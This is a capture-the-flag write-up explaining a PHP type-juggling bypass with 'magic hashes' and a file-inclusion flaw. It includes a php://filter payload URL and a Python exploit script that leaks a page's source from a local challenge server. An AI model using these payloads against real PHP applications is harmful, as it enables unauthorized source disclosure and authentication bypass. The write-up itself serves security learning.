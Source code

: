 # Not a collision

## Overview
To get the flag we can use magic hashes (https://github.com/spaze/hashes). In fact, two strings whose hash starts with `0e...` followed by random numbers, if compared with a double equals `==,` will pass the if statement.
```php
if ("0e67523434" == "0e87923444"){
    echo "collision";
}
```
This happens because the double equals `==` forces the two strings to be treated as numbers in scientific notation, and both are $0*10^{n}$, that is, $0$.

We also see that a variable `$home` is inserted in `include` which can be `home.php` by default or any resource that we insert in page. This is clearly a file inclusion, more precisely to get the flag we need a file disclosure. Thanks to the php wrappers we can get the flag:
```
http://127.0.0.1:6002/?page=php://filter/convert.base64-encode/resource=home.php
```

## Exploit
```py
from requests import post
from base64 import b64decode
from bs4 import BeautifulSoup

url = "http://127.0.0.1:6002/"

# you can find all collisions here: https://github.com/spaze/hashes

data = {
    "input1": "0e215962017",
    "collision": "click"
}

resp = post(url + "?page=php://filter/convert.base64-encode/resource=home.php", data=data)
source_b64 = BeautifulSoup(resp.text, "html.parser").find_all("p")[-1].get_text().strip()

source = b64decode(source_b64).decode()
print(source)
```